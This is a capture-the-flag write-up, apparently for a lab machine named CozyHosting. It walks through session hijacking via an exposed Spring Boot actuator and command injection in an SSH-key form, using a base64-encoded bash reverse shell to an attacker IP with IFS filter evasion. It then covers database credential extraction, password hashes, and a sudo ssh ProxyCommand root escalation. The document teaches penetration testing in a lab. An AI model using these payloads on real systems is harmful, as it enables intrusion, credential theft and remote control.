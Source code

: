 Started with a nmap
```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
1111/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /

```

Added the domain to /etc/hosts and were going to look at the webserver 

Did test the login page for sqli

The web server is running spring boot maybe dirsearch for that
Found a link to a potential leaking endpoint with nuclei
```
http://cozyhosting.htb/actuator
```
Under the sessions link it has one session looks the same as the cookie from the website
```
http://cozyhosting.htb/actuator/sessions
{"837825705F2720DA6BDBAC783C2C7DA8":"kanderson"}
```
After a little bit I got the session cookie to bypass me to the admin page
```
{"0AAC822F8C9EE0A71FE2118D0D213164":"UNAUTHORIZED",
"47F306D16B4770949F87E28AEDD86BBE":"UNAUTHORIZED",
"952D333BBAAA2A7EC0143B431AF292DD":"kanderson","
A26B51B6CA680DF9F714C3EE7F726691":"UNAUTHORIZED",
"85FC6BCAB2A310DDBF16611AF35756D7":"UNAUTHORIZED",
"141C5AC4B9C428DFCE65EC3C1B93BAAA":"kanderson"}
```
The main admin page has a .ssh keys section we add a random hostname and capture it in burp and it gives a ssh error when i have it a username as well says it cant make the bash terminal so were going to try and put a payload in there 
First we going to encode this base64
```
echo "bash -i >& /dev/tcp/10.10.14.152/1234 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTIvMTIzNCAwPiYxCg==

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTIvMTIzNCAwPiYxCg=="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

```
After messing with the encoding for a while got it to call back to me have to url encode key char

After we got loged in I found a jar file
open file with jd-gui 
found a cred in the file
```
spring.datasource.driver-class-name=org.postgresql.Driver  
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect  
spring.jpa.hibernate.ddl-auto=none  
spring.jpa.database=POSTGRESQL  
spring.datasource.platform=postgres  
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting  
spring.datasource.username=postgres  
spring.datasource.password=Vg&nvzAQ7XxR
```
Connecting to the db
```
psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR
```

```
\c cozyhosting
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```
After cracking the hashes we can now connect to the ssh useing josh 
```
josh:manchesterunited
```
I ran sudo -l and looks like we can run ssh as root
```
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
With this command we got root
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
